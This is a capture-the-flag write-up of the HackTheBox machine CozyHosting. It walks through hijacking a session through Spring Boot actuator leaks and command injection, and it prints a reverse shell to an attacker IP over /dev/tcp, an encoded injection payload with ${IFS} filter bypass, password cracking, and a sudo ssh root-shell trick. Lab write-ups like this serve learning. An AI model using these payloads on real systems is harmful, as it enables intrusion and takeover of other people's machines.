# CozyHosting -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** CozyHosting (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-01-27

---

## TL;DR

### Spring Boot actuator exposed session cookies. Hijacked admin session, got RCE via command injection in SSH connection feature. Cracked Postgres DB password hash to pivot to user. Privesc via sudo ssh GTFOBins.

---

## Target info

- Host: `10.10.11.230`
- Domain: `cozyhosting.htb`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration



Added `cozyhosting.htb` to `/etc/hosts`.







Found Spring Boot. Actuator endpoints exposed session info:





Found user: `kanderson`

---

## Foothold

No cookies appeared in storage until a login attempt. After a failed login, replaced the session cookie with `kanderson`'s and reloaded `/admin`:



Sent SSH connection request through Burp. Injected a base64-encoded reverse shell in the username field:

```
bash -i >& /dev/tcp/10.10.14.109/443 0>&1
```

Base64: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDkvNDQzIDA+JjEK`

Payload with `${IFS}` to bypass space filtering, URL-encoded:

```
host=localhost&username=%3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMDkvNDQzIDA%2bJjE%3d"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
```

Timeout in Burp meant it worked:





Stabilized shell and found a `.jar` file. Transferred it to Kali:

```bash
python3 -m http.server 1111
wget http://10.10.11.230:1111/cloudhosting-0.0.1.jar
```

---

## Lateral movement

Opened jar with `jd-gui`, found Postgres creds in `application.properties`:



`postgres:Vg&nvzAQ7XxR`

Connected to the database:

```bash
psql -h 127.0.0.1 postgres
```



```
\c cozyhosting
\d
select * from users;
```



Found bcrypt hashes for `kanderson` and `admin`. Cracked with john:

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



Password: `manchesterunited`

```bash
su josh
```

---

## Privilege escalation



GTFOBins for `ssh`:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```



---

## Lessons & takeaways

- Spring Boot actuator endpoints can leak active session tokens
- `${IFS}` is useful for bypassing space filters in command injection
- Always check `.jar` files for hardcoded credentials
---
